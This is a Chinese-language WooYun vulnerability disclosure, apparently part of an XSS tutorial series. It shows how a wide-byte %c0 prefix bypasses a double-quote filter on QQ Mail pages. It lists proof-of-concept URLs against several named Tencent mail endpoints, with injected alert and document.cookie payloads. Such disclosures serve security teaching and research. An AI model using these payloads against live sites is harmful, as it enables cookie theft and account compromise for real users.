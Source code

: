 # 4\. 宽字节复仇记 [QQ 邮箱基本通用]

# 4\. 宽字节复仇记 [QQ 邮箱基本通用]

> 来源：[4\. 宽字节复仇记 [QQ 邮箱基本通用]](http://www.wooyun.org/bugs/wooyun-2010-015969)

## 简要描述

前面教程第 2 节，说到了输出在`<script>..</script>`之间的情况。也说到了后面会再继续一些有意思的例子。

实际上，我们碰到的往往不是那么好。很多情况下，程序员都是会过滤的。

那么我们怎么办呢？ “因地制宜，因材施教。” 根据漏洞的实际情况，我们可以各种绕过。 不知道这里乱用成语没啊。 惶恐不安中。

这里先看看第一种方法，宽字节绕过。

## 详细说明

1\. 有一个比较经典的 SQL 注入，是宽字节注入。玩渗透的可能对这个都比较清楚。

2\. 有时候，宽字节确实可以带来奇效～～下面我们看腾讯的一个例子。

3\. 例子如下：

```
http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%22;alert(1);//aaaaaa 
```

我们尝试注入 " 来闭合前面的双引号，但是很悲剧的是，双引号被过滤了。。 如下图：

![image](img/Image_014.jpg)

看到这种情况，一般人估计会放弃了吧，至少说明程序员注意到了这里，并且过滤了。

然后我们可以看到编码是：

```
<meta http-equiv="Content-Type" content="text/html; charset=gb18030" /> 
```

gbxxxx 系列的编码，那么我们尝试一下宽字节呢？

```
http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%c0%22;alert(1);//aaaaaa 
```

看看效果：

![image](img/Image_015.jpg)

弹个窗：

![image](img/Image_016.jpg)

至于这个漏洞的成因，和传统的宽字节漏洞并不一样。目测应该是由于过滤双引号的正则表达式写得有问题造成的。并不是因为`%22` 变 成了 `%5c%22`,而 `%c0` 吃掉了后面的`%5c`。 而后面这种情况，在腾讯的相关站点暂时没有发现实际案例。 如果有，欢迎大家分享。

## 漏洞证明

不一一列举了。有这个参数的基本都有问题。

```
http://msgopt.mail.qq.com/cgi-bin/readtemplate?sid=ktqO7DjMQcJuAABQ&folderid=9&pagehttp://msgopt.mail.qq.com/cgi-bin/readtemplate?sid=ktqO7DjMQcJuAABQ&folderid=9&page=0&t=aaaa%c0%22;alert(1);//bbbbx&loc=folderlist,,,9

http://r.mail.qq.com/cgi-bin/reader_main?sid=ktqO7DjMQcJuAABQ&t=aaaa%c0"bbbbx&source=folderlist

https://exmail.qq.com/cgi-bin/bizmail?sid=N7fzoGwkeI8ydyRo,7&action=show_user&alias=zhaopin@ucanlove.com&t=%c0"ccccbbbbx&s=showaccount

https://exmail.qq.com/cgi-bin/loginpage?errtype=3&verify=true&clientuin=info&t=dm_loginpage&d=fartech.cn&s=&alias=&regalias=&delegate_url=&title=&url=%2Fcgi-bin%2Flogin%3F&org_fun=&aliastype=other&ss=&from=&autologin=n&param=&sp=&r=b63f6de34c24eeb8a3099ab4bbfc1b8d&ppp=&secpp=%c0%22onmousebbbb=alert(document.cookie);//&dmtype=bizmail

http://open.mail.qq.com/cgi-bin/qm_help_mailme?sid=,2,zh_CN&t=%c0"ccccbbbbx

http://open.mail.qq.com/cgi-bin/communication?sid=,2,zh_CN&t=%c0"ccccbbbbx&action=

http://open.mail.qq.com/cgi-bin/feedback_loop?sid=,2,zh_CN&check=false&t=%c0"ccccbbbbx&action=

http://exmail.qq.com/cgi-bin/viewdocument?sid=H6Mg9z5XNfqsfhdH,7&filename=%CC%EC%BD%F2%BB%C6%BD%F0%C8%D5%D6%DC%C6%C00917.doc&mailid=ZL2017-RfnEvncOeLfhJ04eTPrSU29&retry=true&t=%c0%22ccccbbbbx&ef=qfunc

http://reader.qq.com/cgi-bin/rss_main?sid=MTOtOYwpx56MMzN9&t=aaaa%c0%22;alert(document.cookie);//bbbbx&s=mag&r=222&init=true&update=1 
```

## 修复方案

修复相关过滤机制。